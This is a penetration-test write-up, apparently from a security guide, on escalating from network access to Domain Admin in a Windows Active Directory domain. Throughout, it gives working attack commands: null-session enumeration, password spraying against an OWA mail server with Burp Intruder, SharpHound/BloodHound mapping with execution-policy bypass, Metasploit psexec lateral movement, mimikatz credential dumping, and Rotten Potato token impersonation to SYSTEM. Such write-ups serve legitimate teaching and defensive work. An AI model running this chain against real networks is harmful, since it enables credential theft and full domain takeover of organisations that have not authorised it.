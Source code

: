 # Domain Admin in 30 Minutes

This is an experience from a real internal domain pentest. Customer name has obviously been removed.

Goal here is going from network access only to domain admin. This process takes about 30 min. This particular customer had removed regular users as local admins from workstations, so using responding and relaying didn't give us much here. This is after all a pretty old attack vector, although it has a good success rate.

### Null session on domain controller \(DC\)

Did a fast scan with Nessus, could have done other things to find a domain controller like nmap or other windows commands.

Tried to check it the DC supported null sessions using the following command:

```
enum4linux -a <ip address>
```

Domain controller gives us everything we need.

A list of every machine, every user, including admins and domain admins.

Bonus: every group membership and the password policy.

PW policy reveals there is no lockout on regular users and no requirement for complexity.

**It’s a party!**

### Password spraying

Every regular user has three letter usernames. Let’s make a list of all those. We don’t want to block out admin users \(they usually have lockout\). About 500 usernames on this test.

No complexity requirements = shit passwords. This test was performed during christmas 2017 so we make a list of relevant passwords and check it twice:

* Winter2017
* winter2017
* christmas2017
* Christmas2017

Now we need a place to try the passwords. Trying to authenticate with a lot of failures on SMB may be detected and this stuff is way easier to set up in Burp anyway. We load up a list of usernames and passwords with Burp Intruder and point it to the external OWA e-mail server that really wasn't that hard to guess.

`www.mail.customer.com`

Now we just run it for all 500 usernames with those four passwords for all of them. Spray and pray!

Takes about 5 seconds to filter for 200 OK in Burp and see where the pw is accepted. It's also possible to sort by size of the response to easily find the positives. Got a few regular users login credentials now. We can get busy! Remember there was no lockout on passwords, so we could have tried until somebody came running through the door of the tiny meeting room we were sitting in. Food for thought .... So we get the credentials of a user called `ank`_._

### Make a map of the domain with regular user privs

Now remember this user is not an admin but the way Active Directory works allows us to map out the whole domain.

`runas /netonly /user:kunde.no \ank powershell`

Type in password `winter2017`when prompted. This query gets executed at the domain controller, and if successfull we can basically execute queries that are forwarded and executed on the DC. This is not remote code execution or any sort of vuln, just inherent functionality. We now want to make a map with Bloodhound, so if you haven't get that set up using the guide from this book. Then go ahead and load up SharpHound.ps1 and execute it. Depending on the size of the domain and activity, this should take some time. On busy daytime in a corporate office with a few thousand workstations and servers this took 30 minutes to complete.

```
Powershell -exec bypass
Import-module SharpHound.ps1
Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData –SkipPing
```

Wait 20 minutes for a full map of the entire domain \(3000 hosts\). Now load it all up in bloodhound using the import feature, just put the entire ZIP file in there. Now BloodHound has a few default queries which are quite useful. Since we want domain admin we wanna see if its an easy way.

`Find shortest path to domain admin`

Now we notice a few things that we kind of knew already, but now realized. The number of domain admins is too damn high! Also, by cross referencing the output from the null session enumeration on the DC we see domain admin usernames that are highly susceptible as service accounts. A thing we didn't try before way later in the engagement was logging in as domain admins with the same username as password. Believe it or not, this actually worked for one of the domain admins, which is plain ridiculous. We could have reduced our effort getting DA from 30 minutes to 30 seconds, but of course we didn't wanna go wild password spraying domain admins as this would get us detected really fast and we could potentially block out domain admins preventing them from doing their jobs. That's not good!

### Pivoting around to find a box that has domain admin

So now that we have a proper map we need to try to get closer to a box with domain admin so we can capture that users privileges or credentials somehow. Because this customer had removed all kinds of local admin from workstation's the regular users we had access to basically has no good privs, except as Bloodhound so elegantly reveals one single box. WTF? Apparently in their rigoorous removal of local admins from workstations they had forgot this one WS which is still in use.  So before we can get to a box with domain admin we need an intermediary step we jump on to a workstation the user has access to that also has an admin logged on with psexec \(SMB share login\) and RDP \(remote desktop\). Because this box was accessible by every user in the domain it was just jumping on it. By some stroke of luck an admin user is also logged onto  this box. We use in Metasploit with the user's creds on that workstation:

```
exploit/windows/smb/psexec_psh
```

We now have shell as local admin on that workstation, and hence we can run mimikatz. We load and execute mimikatz straight into memory from metasploit:

```
load mimikatz
mimikatz_command -f sekurlsa::logonPasswords full
```

We now dump the admin user's password and hash in plaintext \(easily identifiable as all admin-users in this domain has "admin" in the username\). We check the privileges of this admin user and find a box with multiple domain admins on that this user also has access to. On to the final step!

### Privilege escalation from admin to domain admin

We shell in with `psexec_psh` to the box that has domain admins. We are not local admin on this box, so we can't do mimikatz. Luckily, there are other ways to get privileges. Rotten Potato is a privilege escalation technique that works well for this kind of scenario. Using this technique, we can elevate our privilege on a Windows workstation from the lowest levels to “NT AUTHORITY\SYSTEM” – the highest level of privilege available on a Windows machine. We do the following in our Meterpreter:

```
getuid
getprivs
upload /root/just_dce_64.exe c:\\temp\\rot.exe
load incognito
list_tokens -u
execute -Hc -f ./rot.exe
impersonate_token "NT AUTHORITY\\SYSTEM"
getprivs
```

We are now SYSTEM on this box and can run mimikatz do dump the plaintext creds of whatever domain admin is logged on the box. Alternatively, we can use rotten potato to impersonate a domain admin. Just replace the username of the impersonate\_token command from above with the username you want to impersonate. Wild!

Congrats you are now domain admin!



